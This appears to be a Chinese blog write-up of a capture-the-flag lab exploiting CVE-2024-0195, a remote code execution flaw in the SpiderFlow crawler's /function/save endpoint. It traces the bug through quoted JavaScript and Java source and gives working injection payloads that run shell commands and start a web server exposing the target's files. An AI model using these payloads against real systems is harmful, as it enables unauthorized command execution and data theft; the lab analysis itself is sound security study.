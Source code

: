 ```yaml
---
title: 春秋云镜 CVE-2024-0195
tags: [penetration]
date: 2024-10-20 00:00:00
categories: [penetration]
excerpt: 远程代码执行RCE

---
```


## CVE-2024-0195

https://yunjing.ichunqiu.com/cve/detail/1114

```
SpiderFlow是新一代开源爬虫平台，以图形化方式定义爬虫流程，不写代码即可完成爬虫。基于springboot+layui开发的前后端不分离,也可以进行二次开发。该系统/function/save接口存在RCE漏洞，攻击者可以构造恶意命令远控服务器
```

按照介绍访问/function/save界面，发现是一连串的java报错

![](/img/pene/13.png)

在html中寻找，自定义函数-添加函数这里，会发送/function/save这个请求

```js
layui.form.on('submit(save)',function(){
    $.ajax({
        url : 'function/save',
        type : 'post',
        data : {
            id : fId,
            name : $("input[name=name]").val(),
            parameter : $("input[name=parameter]").val(),
            script : editor.getValue()
        },
        success : function(data){
            if(data){
                var message = data.replace(/\n/g,'<br>').replace(/ /g,'&nbsp;').replace(/\t/g,'&nbsp;&nbsp;&nbsp;&nbsp;');
                layui.layer.alert('<div style="font-weight: bold;font-family:Consolas;font-size:12px;">' + message + '</div>',{title : '保存出错',area:['800px','400px']});
            }else{
                layui.layer.msg('保存成功',{
                    time : 800
                },function(){
                    location.href = 'functions.html';
                })
            }
        },
        error : function(){
            layui.layer.msg('请求失败');
        }
    })
    return false;
}
```

从js代码可知，post过去的三个参数，name，parameter，script三个参数就是添加函数这个界面里自定义的三个参数

但是不知道这些东西发过去会被如何使用，好在这个SpiderFlow是开源的，并且停更前最后一版的版本就是靶机使用的0.5.0：https://github.com/ssssssss-team/spider-flow

直接在库里search哪里处理这个请求，在`FunctionController.java`里：

```java
@RestController
@RequestMapping("/function")
public class FunctionController {
    @Autowired
    private FunctionService functionService;
    ...
    @RequestMapping("/save")
    public String save(Function function){
        return functionService.saveFunction(function);
    }
    ...
}
```

说是这个请求会调用saveFunction处理（Function对象包含上传的name，parameter，script三个参数）

```java
    public String saveFunction(Function entity) {
        try {
            ScriptManager.validScript(entity.getName(),
                                      entity.getParameter(),entity.getScript());
            super.saveOrUpdate(entity);
            init();
            return null;
        } catch (Exception e) {
            logger.error("保存自定义函数出错",e);
            return ExceptionUtils.getStackTrace(e);
        }
    }
```

validScript：

```java
public static void validScript(String functionName,String parameters,String script) throws Exception {
    new ScriptEngineManager().getEngineByName("nashorn").
            eval(concatScript(functionName,parameters,script));
}
```

通过eval函数，把三个参数通过concatScript连接成js代码，然后用eval执行

concatScript会自动将script作为一段函数内的代码，在其前后添加{}

比如输入一个}，会报错：

![](/img/pene/14.png)

从这里可以看到最终拼接的js代码的形式，而如果代码放在函数里是执行不了的，所以可以通过`}{`来搞一段函数外的代码

```js
}Java.type('java.lang.Runtime').getRuntime().exec('ls');{
```

然后试了一下，直接保存成功，没有任何回显

从最前面的js代码可以看到

```js
success : function(data){
    if(data){...
    }else{
        layui.layer.msg('保存成功',{
            time : 800
        },function(){
            location.href = 'functions.html';
        })
    }
```

如果保存成功，是不会传回来任何data的，也就是说虽然有了执行任意命令的权限，但是没法回显

这种时候最应该想到的方法，就是反弹一个shell到自己的机器上，这也是网上能找到的题解大多数的做法，但是我没有公网ip😶‍🌫️

> 公网ip比租一会云服务器贵多了😶‍🌫️

最终是通过开一个python的http服务，然后没有index.html时，就会自动显示文件系统

```js
}Java.type('java.lang.Runtime').getRuntime().exec('python3 -m http.server 80');{
```

端口似乎还选不了别的，应该是其他端口会被屏蔽，

![](/img/pene/15.png)